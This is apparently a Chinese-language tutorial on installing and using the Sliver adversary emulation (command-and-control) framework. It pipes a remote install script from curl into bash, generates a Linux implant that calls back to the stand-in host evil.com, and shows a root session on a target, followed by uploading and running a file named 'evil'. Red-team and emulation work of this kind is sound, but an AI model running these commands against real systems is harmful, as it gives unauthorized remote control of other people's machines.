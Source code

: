 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/scripts/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(sec@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(sec@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n sec -l evil.com -p 31337
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(sec@debian)-[~]
└─$ sliver-client import ~/.sliver-client/configs/sec_evil.com.cfg
```

运行 Client

```
┌──(sec@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

### 2.3. Implant

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./evil ./example
```

添加执行权限

```
[server] sliver (implant) > chmod ./example 755
```

执行程序

```
[server] sliver (implant) > execute ./example
```

---

Refrences

- [sliver](https://github.com/BishopFox/sliver)

